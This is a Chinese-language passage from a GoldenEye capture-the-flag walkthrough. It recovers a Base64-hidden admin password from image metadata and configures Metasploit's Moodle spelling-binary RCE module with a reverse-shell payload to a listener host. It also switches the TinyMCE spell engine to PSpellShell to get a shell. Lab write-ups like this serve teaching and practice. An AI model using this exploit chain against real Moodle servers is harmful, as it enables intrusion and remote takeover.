 使用 doak 的凭据进行登陆，继续信息挖掘，在 My profile -> My private files 中发现一个密码文件 s3cret.txt，下载并查看。

```
007,

I was able to capture this apps adm1n cr3ds through clear txt.

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here.

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

根据提示，doak 抓取到了 admin 的凭据，但是为了防止扫描，把它放在了/dir007key/for-007.jpg 图片中，访问图片：http://192.168.10.150/dir007key/for-007.jpg 貌似是图片隐写，下载图片，使用 exiftool 进行查看，发现可疑信息。

```
Image Description   : eFdpbnRlcjE5OTV4IQ==
```

对 Description 进行 Base64 解密得到：xWinter1995x!，使用这个密码登陆管理员 admin。登陆后，找了一圈，没找到有用的信息，也没找到直接可以上传 webshell 的地方。尝试在 msf 中搜索，找到了 exploit multi/http/moodle_spelling_binary_rce，使用后，对相应的参数进行设置：

```
   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   xWinter1995x!          yes       Password to authenticate with
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.10.150         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                               loit/basics/using-metasploit.html
   RPORT      80                     yes       The target port (TCP)
   SESSKEY                           no        The session key of the user to impersonate
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /gnocertdir            yes       The URI of the Moodle installation
   USERNAME   admin                  yes       Username to authenticate with
   VHOST      severnaya-station.com  no        HTTP server virtual host


   Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.10.3     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

run 后发现无法创建 session，查看 exp 源码后，发现 's_editor_tinymce_spellengine' => 'PSpellShell' 需要这样设置，重新在后台管理页面中 Home -> Site administration -> Plugins -> Text editors -> TinyMCE HTML editor 进行设置， http://severnaya-station.com/gnocertdir/admin/settings.php?section=editorsettingstinymce 修改 Spell engine 为 PSpellShell，保存后，重新进行利用，获得了反弹的 shell。
